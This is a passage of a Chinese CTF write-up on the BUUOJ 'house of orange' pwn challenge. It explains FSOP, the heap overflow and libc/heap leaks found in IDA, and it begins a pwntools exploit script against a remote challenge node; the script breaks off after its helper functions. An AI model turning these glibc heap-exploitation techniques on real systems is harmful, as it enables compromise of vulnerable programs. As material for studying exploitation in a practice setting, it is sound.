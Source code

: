 发现如果一直绕不过这个检查，会从io\_list\_all一直往下取链表的成员，直至为0

这就是为啥俺一开始在gdb里调半天一直mov rbx，rbx+0x68直到为0的原因

例题
--

BUUOJ-house of orange

保护
--

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d607665b72a7f1be15b3479292506a21a25571bd.png)

ida
---

### main

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-762a1124cb2984179e146b31315d60d57d02c4a2.png)

发现没有free函数，考虑使用house of orange 构造1个free的堆块，具体就是改写top\_chunk（防止使用mmap分配内存）,然后申请一个比它大的堆块，就会把top\_chunk free

### add

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-07a3b27901f92e75077c65380e0a9124bebd7428.png)

很寻常，不过限制了add个数为4。而且未初始化指针，可以leak\_libc和heap

### edit

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c96889f0fa60733b558809aada4575839d660470.png)

也是限制了edit的个数为3，改写的大小是我们指定的，所以存在堆溢出

### show

![](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-52cb2b5b83311fc3d93544c3b9e749b17c8553e3.png)

存在的意义就是为了leak

### 思路

模板题还写啥思路.......

~学了fsop和house of orange 还不会可以remake了~

exp
---

```php
from pwn import *
context.log_level='debug'
##r=process('./orange')
r=remote('node4.buuoj.cn',26752)
libc=ELF('./libc-2.23.so')

def z():
    gdb.attach(r)

def cho(num):
    r.sendlineafter("Your choice : ",str(num))

def add(size,con):
    cho(1)
    r.sendlineafter('Length of name :',str(size))
```